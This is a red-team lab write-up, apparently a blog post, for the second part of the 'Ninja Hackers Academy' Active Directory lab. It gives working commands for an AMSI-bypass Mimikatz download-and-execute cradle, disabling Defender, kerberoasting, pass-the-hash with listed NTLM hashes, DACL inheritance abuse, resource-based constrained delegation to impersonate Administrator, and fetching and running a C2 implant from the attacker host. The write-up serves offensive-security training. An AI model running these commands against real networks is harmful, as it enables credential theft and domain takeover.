 ```yaml
---
title: "AD Pwnage: Ninja Hackers Academy Part 2"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2024-01-21
description: "Hacking into NHA - AD based Lab Red Team way."
tags: [Red Team]
---
```


## Introduction
In the previous one, we went from a scope of subnet to initial access using an SQL injection and also escalated our privileges to SYSTEM to get more access. This time, we are going to see what we can do to jump from this mahcine to the next one.

## Making Sure Our Wins aren't Short Lived
So from the SYSTEM shell access, we can go ahead and get a lay of the land. We know our IP and the machine is `SQL$`. To make sure we dont lose access we can dump hashes. ANother thing would be to add persistence in the machine as good measure. THis would be done in an actual red team engagement. In this case, I'm skipping that out.
The best thing would be to use something custom or modified version of mimikatz to fly undetected. BUT! we are just going to use a `safedogz.ps1` which contains an AMSI bypass and calls `dogz.ps1` which is a little modified version of [nishang](https://github.com/samratashok/nishang)'s `Invoke-Mimikatz.ps1` (you can probably guess what the modification is) and it has the call `Invoke-Mimikatz -DumpCreds` at the end. This works, but it also gives out an alert by Defender that something fishy is happening. For some reason it does give the result back and also doesnt kill out session on Havoc so eh it works.
<br>

We are going to use the same command again but in Havoc.
```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://192.168.58.50/safedogz.ps1') -UseBasicParsing | iex"
```

For those who are wondering we get this nasty behavioural alert on defender.
![Defender Alert](/assets/img/NHA/defender_mimi_alert.png)

But at the same time we also get these nice sweet sweet hashes back.

![SQL Hashes](/assets/img/NHA/hashed_1.png)

Keeping these saved, we can move further. In case your defender is faster and blocking it, you cold use a second C2 at this point. One option is [Sliver](https://github.com/BishopFox/sliver). It has a built in function to dump hashes using `nanodump` which worked when I tried it. A second C2 is also a good idea to keep as a backup in case you lose you initial shells. You can use the other one as a backup to bring up instead of running the whole process again. Especially if the initial one was obtained using some phishing tactic.
Another option, which is not so red teamy, is to turn defender off using this powershell command.
```bash
Set-MpPreference -DisableRealTimeMonitoring $true
```

Or a little bit more OPSEC safe way is to remove all definitions using this.
```bash
& 'C:\Program Files\Windows Defender\MpCmdRun.exe' -RemoveDefinitions -All
```

Just to keep in mind its a huge red flag in mature environments. In the continuation of this lab, I'm going ot be removing the definitions. This is just to make our work easier. Basic bypasses can still be used as previously done, to get past defender. However, in some cases things might get a little itchy. So, just to ease it and not having to make custom modifications to tools, I'll do this. I'll mention when I'm actually doing it so you wont get confused how my commands worked but you're commands are geting killed by the big baddie defender.

## Getting a Lay of the Land in the Domain
So to continue gettting an understanding of the schema of this organization, we will be using [BloodHound](https://github.com/BloodHoundAD/BloodHound). This will help us visualize what we are working with.
We can use `SharpHound.exe` to get the data to feed BloodHound. [SharpCollection](https://github.com/Flangvik/SharpCollection/) will be used again (Thanks [flangvik](https://twitter.com/Flangvik)!!).
```bash
dotnet inline-execute /opt/SharpCollection/NetFramework_4.7_Any/SharpHound.exe -c all
```

We will get the data. Then we can download it simply by using `download` command in Havoc.
![SharpHound Dumped](/assets/img/NHA/sharphound_dump.png)

Next we can locate it in this directory for me.
```bash
/opt/Havoc/data/loot/2024.01.13._00:43:07/agents/15b67a26/Download/C:/tmp/20240113031943_BloodHound.zip
```

Now we can put it in BloodHound to see what we have. First we can see the computers in the domain.
![Computers](/assets/img/NHA/computers.png)

We can also see the users. One thing we can do is get all the usernames and try and ASREP Roasting attack. We are going to unzip the bloodhound data and find a JSON file of users. Then we can use JQ and this command to just get the SAMAccountName of the users. I learned this trick from [Ippsec](https://www.youtube.com/watch?v=o3W4H0UfDmQ&t=265)'s video.
```bash
cat 20240113031943_users.json | jq -r '.data[].Properties.samaccountname'
```

This gives us all of the usernames.
![Account Names](/assets/img/NHA/js_accountnames.png)

We can save these in a users text file. Then we can use this commmand to go through all of these users and use the Impacket script GETNPUsers.py to find if any users have pre-auth disabled.
```bash
for user in $( cat academy_users.txt  ); do GetNPUsers.py -no-pass -dc-ip 192.168.58.20 ACADEMY/${user} -format hashcat | grep -v Impacket; done
```

We get these results.
![ASREP Roasting](/assets/img/NHA/asrep.png)

Unfortunately, no easy win for us. This didnt work. We can also use this command to find user's descriptions in case we have some passwords in descriptions (yes. it does happen.).
```bash
cat 20240113031943_users.json | jq '.data[].Properties.description'
```

![User Descriptions](/assets/img/NHA/descriptions.png)

Also while we are on the topic of kerberos, with ASREP Roasting, we can see which users might be kerberoastable. This can be checked from BloodHound.
![Kerberoastable Users](/assets/img/NHA/kerber.png)

We have user Frank, sql_svc which is a service account most probably, and the default krbtgt account. We can get the hashes using this command in our C2.
```bash
dotnet inline-execute /opt/SharpCollection/NetFramework_4.7_Any/Rubeus.exe kerberoast /nowrap
``` 

After getting the hases we can try and crack them using hashcat.
```bash
hashcat -m 13100 -a 0 kerberoast.hashes ~/Desktop/rockyou.txt --force
```

Unfortunately again, it doesnt take us anywhere. We can take a look at the prebuilt queries in BloodHound to learn more about the internal environment. One more thing that we should do is to mark `SQL$` machine as owned so we can keep a track of our actions.
We can look around in the `SQL$` machine and get a password from a config file at `C:\setup`

![SQL Config](/assets/img/NHA/sqlconfig.png)
```bash
SAPWD="sa_P@ssw0rd!N1nJ4hackaDemy"
```

This is is the SQL Admin password or `sa` user's password. We can look around in the database using this command to see if there are any other credentials in there.
```bash
impacket-mssqlclient sa:'sa_P@ssw0rd!N1nJ4hackaDemy'@192.168.58.22
```

I couldn't find anything of interest there. Back to BloodHound. We can use a really cool feature of it which is mapping to and from to see if there is a way we can pivot from one machine to another.
We can see something cool if we map the way from our owned `SQL$` machine to `WEB$` machine. It shows that `SQL$` has `GenericAll` privileges over the COMPUTERS container, of which the `WEB$` machine is a part of.

## Packing Up, Ready to Jump to New Horizons (Pivoting)

This is a bit tricky. See, if we had these privileges over directly the other machine, it would have been easy. After stumbling around it a lot and wondering why it wasn't working I was pointed to the reason. After all, if `WEB$` is a part of the container we have `GenericAll` privileges over, shouldn't we have enough privileges to work with? The answer is no.
You see, we don't exactly have the privileges. Not over the object that is a part of it. The author made a [tweet](https://twitter.com/M4yFly/status/1603035773628215296?t=eozscxvg8DwaC5-UeV0GBw&s=19) about it a while ago as well. To be able to actually do it, we would need to enable inheritance. This would pass any privilege over the container to the objects inside the container as well.
For this we will be using the `dacledit.py` script to edit the Discretionary Access Control List (DACL). This is not a part of the official Impacket repo (as far as I know). We can find it [here](https://github.com/ShutdownRepo/impacket/tree/dacledit) at the branch dacledit. We can use it to add inheritance to the container. You can read more about it from [here](https://www.thehacker.recipes/a-d/movement/dacl/grant-rights).
We can use this command that will do it.
```bash
dacledit.py -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes 7bd73a3ebe97a16f0691a0f51292dd47:7bd73a3ebe97a16f0691a0f51292dd47 -inheritance
```

This enabled inheritance using our `SQL$` machine hashes to the Distinguished Name (dn) of COMPUTERS. Once that is done, we can see that we now have `GenericAll` privileges over the `WEB$` machine.
![Changed DACL of WEB$](/assets/img/NHA/web_dacl.png)

And now we can go down the Resource Based Constrained Delegation (RCBD) route. To explain this in simpler terms, we are going to create a machine account that we control and have the password of. We are going to add `msDS-AllowedToActOnBehalfOfOtherIdentity` to the `WEB$` machine from our newly created machine account. Then we can abuse that and get a service ticket to the `WEB$` machine as Administrator.
First we need to create a machine account. We are allowed to do so because in AD by default any user is allowed to create 10 machine accounts (machine account quota). We can use `addcomputer.py` script from Impacket to do so.
```bash
addcomputer.py -computer-name 'crypt0ace$' -computer-pass 'Password123!' -dc-host academy.ninja.lan "academy.ninja.lan"/"SQL$" -hashes 7bd73a3ebe97a16f0691a0f51292dd47:7bd73a3ebe97a16f0691a0f51292dd47
```

Now that it is created we can make it delegate to the `WEB$` machine
```bash
rbcd.py -delegate-from 'crypt0ace$' -delegate-to 'web$' -dc-ip 'academy.ninja.lan' -action 'write' "academy.ninja.lan"/"SQL$" -hashes 7bd73a3ebe97a16f0691a0f51292dd47:7bd73a3ebe97a16f0691a0f51292dd47
``` 

We can confirm that it worked by reading the delegate list using this command
```bash
rbcd.py -delegate-to 'web$' -dc-ip 'academy.ninja.lan' -action 'read' "academy.ninja.lan"/"SQL$" -hashes 7bd73a3ebe97a16f0691a0f51292dd47:7bd73a3ebe97a16f0691a0f51292dd47
```

![Listing Delegation](/assets/img/NHA/rbcd.png)

Perfect! It worked. Now we can request a service ticket using `getST.py` for the service CIFS so we can use things like `psexec.py` and `smbexec.py` and we are going to impersonate the Administrator user.
```bash
getST.py -spn 'cifs/web.academy.ninja.lan' -impersonate Administrator -dc-ip 'academy.ninja.lan' "academy.ninja.lan"/"crypt0ace$" -hashes 2b576acbe6bcfda7294d6bd18041b8fe:2b576acbe6bcfda7294d6bd18041b8fe
```

Now we can export the ticket and use `smbexec.py` which is much better to move around Defender and get a shell on the `WEB$` machine.
![Shell on WEB Machine](/assets/img/NHA/web_shell.png)

Next we can move this as well to our C2 using these commands.
```bash
powershell.exe -c "iwr http://192.168.58.50/demon.exe -o C:\tmp\demon.exe"
C:\tmp\demon.exe
```

And as expected, we get it.
![Callback on our C2](/assets/img/NHA/web_pwned.png)

With this muc done, I'm gonna head out. As always, If theres any thing you need to discuss I'm on [Twitter](https://twitter.com/crypt0acee) and [LinkedIn](https://www.linkedin.com/in/ahmed-sher-93234a206/). 
